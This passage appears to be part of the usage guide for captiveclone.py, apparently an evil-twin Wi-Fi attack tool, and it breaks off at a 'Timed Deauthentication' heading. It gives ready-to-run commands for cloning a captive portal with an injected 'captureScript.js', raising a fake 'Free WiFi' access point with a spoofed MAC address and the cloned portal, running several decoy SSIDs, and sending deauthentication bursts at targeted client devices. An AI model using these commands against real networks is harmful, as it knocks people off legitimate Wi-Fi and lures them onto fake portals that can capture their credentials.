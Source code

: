 ### Custom Injection

Inject custom JavaScript for advanced functionality:

```bash
sudo python captiveclone.py clone http://example.com --inject-js captureScript.js
```

## Access Point Configuration

### MAC Address Spoofing

Spoof the MAC address of the access point:

```bash
sudo python captiveclone.py ap "Free WiFi" --interface wlan1 --mac 00:11:22:33:44:55
```

### Captive Portal Integration

Integrate with the cloned captive portal:

```bash
sudo python captiveclone.py ap "Free WiFi" --interface wlan1 --portal-dir clones/hotel_wifi
```

### Advanced DHCP/DNS Configuration

Configure custom DHCP and DNS settings:

```bash
sudo python captiveclone.py ap "Free WiFi" --interface wlan1 --ip-range 192.168.100.0/24 --gateway 192.168.100.1 --dns 1.1.1.1 --dhcp-start 192.168.100.100 --dhcp-end 192.168.100.200
```

### Multiple SSIDs

Create multiple SSIDs on a single interface (if supported):

```bash
sudo python captiveclone.py ap --multi-ssid --ssids "Free WiFi,Guest Network,Hotel Service" --interface wlan1
```

## Deauthentication Techniques

### Selective Targeting

Target specific clients with custom deauthentication patterns:

```bash
sudo python captiveclone.py deauth 00:11:22:33:44:55 --interface wlan0 --client AA:BB:CC:DD:EE:FF --client 11:22:33:44:55:66 --burst 15 --interval 0.3
```

### Timed Deauthentication
